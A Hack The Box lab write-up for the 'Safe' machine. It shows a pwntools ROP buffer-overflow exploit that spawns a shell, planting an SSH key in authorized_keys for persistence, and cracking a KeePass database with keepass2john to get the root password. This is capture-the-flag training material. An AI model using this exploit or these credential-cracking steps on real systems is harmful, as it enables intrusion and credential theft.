 # Safe

<h1 align="center">
  <br>
  <a href="https://www.hackthebox.eu/home/machines/profile/199"><img src="images/img.png" alt="Safe"></a>
  <br>
</h1>
<h4 align="center"> Author: <a heref="https://www.hackthebox.eu/home/users/profile/91108" > thek</a></h4>

***

__Machine IP__: 10.10.10.147

__DATE__ : 16/09/2019

__START TIME__: 8:42 PM

***

## Nmap

![](images/nmap.png)

I've got two open port and one filtered port. Obviously we'll start our enumeration with HTTP service.

***

## HTTP

If we visit the Website we'll get the ` Apache2 Debian Default Page `.
I ran `gobuster` on it but found nothing there.

![](images/comment.png)

It says something about `myapp` and port `1337`. So First I visited the URL `http://10.10.10.147/myapp` which gave me an `Elf` named `myapp`. This was an ELF binary which is supposedly `echoing` back the command we enter but we don't see any output.

You can follow [Ippsec's Bitterman](https://forum.hackthebox.eu/discussion/92/campctf2015-bitterman-video-by-ippsec) to understand the process of exploiting this binary.

```python
from pwn import *

r = remote('10.10.10.147', '1337')

# Found offset: 120
junk1 = b"\x90" * 120
junk2 = b"\x90" * 16
shtext = b"/bin/sh\x00"  # just 8 bytes.
r.recvuntil("average")
r.recvuntil("\n")

plt_system = p64(0x401040)
plt_main = p64(0x40115f)
pop_r131415_ret = p64(0x401206)  # pop the shtext inside stack, then fill others with nop
mov_rsp_to_rdi = p64(0x401156)  # followed with a jmp r13

payload = junk1 + pop_r131415_ret + plt_system + junk2 + mov_rsp_to_rdi + shtext + plt_main

r.send(payload)
r.interactive()
```

This exploit will give us shell on the system.

![](images/shell.png)

If we look at the `user's` home directory we can see some images, password file and user flag.

![](images/user-dir.png)

First I got the user flag.

![](images/user.png)

`7a29ee9b0fa17ac013d4bf01fd127690`

***

Once I had the User flag. I decided to get the `user's` SSH key but it didn't had any. The `.ssh` folder in `/home/user` only had an `authorized_key` so I decided to copy my own Public key there so I can login via ssh.

![](images/ssh.png)

We can see that there are lot of images there so I downloaded it and used some steganography but none of them had anything in it. So I shifted my focus to `MyPasswords.kdbx`. I downloaded the file using `scp`.

```bash
➜ scp user@10.10.10.147:/home/user/MyPasswords.kdbx ./
```

Then I ran

```bash
$ keepass2john MyPasswords.kdbx > hash.txt
```

And tried cracking it but then [@FolkLore_93](@FolkLore_93) gave me hint that I need to use `Images` as one of the `Key file`.

So I started using one after the other and

```bash
$ ➜ keepass2john -k IMG_0547.JPG MyPasswords.kdbx > hash.txt
```
This gave me password in a minute.

![](images/cracked.png)

Once I had the cracked password I used that and the image file used before to open the database and in that I found the password for the `root`.

![](images/root-pass.png)

After that I did `su root` and used that password to become root.

![](images/root-shell.png)

![](images/root.png)

***
Thanks for reading, Feedback is always appreciated

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more "Writeups".
